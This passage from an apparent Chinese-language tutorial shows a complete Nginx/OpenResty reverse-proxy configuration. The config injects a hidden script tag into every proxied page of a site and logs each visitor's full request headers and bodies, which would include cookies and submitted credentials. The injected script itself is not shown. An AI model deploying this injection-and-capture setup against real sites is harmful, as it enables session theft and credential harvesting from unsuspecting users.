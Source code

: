 ```
        }
        access_log /tmp/pricking/access.log logeverything;
    }
}
```

`ngx.localtime()`和`ngx.req.raw_header()`是调用了[Lua Ngx API](https://openresty-reference.readthedocs.io/en/latest/Lua_Nginx_API/)。

### Nginx - 最终配置

```
worker_processes  1;
events {
    worker_connections  1024;
}


http {
    include       mime.types;
    default_type  application/octet-stream;
    sendfile        on;
    log_format  logeverything  '$current_time - $remote_addr \n$request_headers \n\n$request_body\n';
    

    server {
            set $request_headers "";
            set $current_time "";

            server_name proxy.payloads.online;
            listen 80;

            location ^~ /7276df76835ed2272cc0e59f55e49902/ {
                alias    /tmp/pricking/static/;
            }


            location / {
                proxy_pass http://payloads.online;
                proxy_set_header Host payloads.online;
                header_filter_by_lua_block { ngx.header.content_length = nil}
                body_filter_by_lua_block{
                        local chunk, eof = ngx.arg[1], ngx.arg[2]
                        local buffered = ngx.ctx.buffered
                        if not buffered then
                           buffered = {}
                           ngx.ctx.buffered = buffered
                        end
                        if chunk ~= "" then
                           buffered[#buffered + 1] = chunk
                           ngx.arg[1] = nil
                        end
                        if eof then
                           local whole = table.concat(buffered)
                           ngx.ctx.buffered = nil
                           whole = whole .. "<script src='/7276df76835ed2272cc0e59f55e49902/static.js' type='module'></script>"
                           ngx.arg[1] = whole
                        end
                }
                log_by_lua_block {
                    ngx.var.current_time = ngx.localtime()                  
                    ngx.var.request_headers = ngx.req.raw_header()
```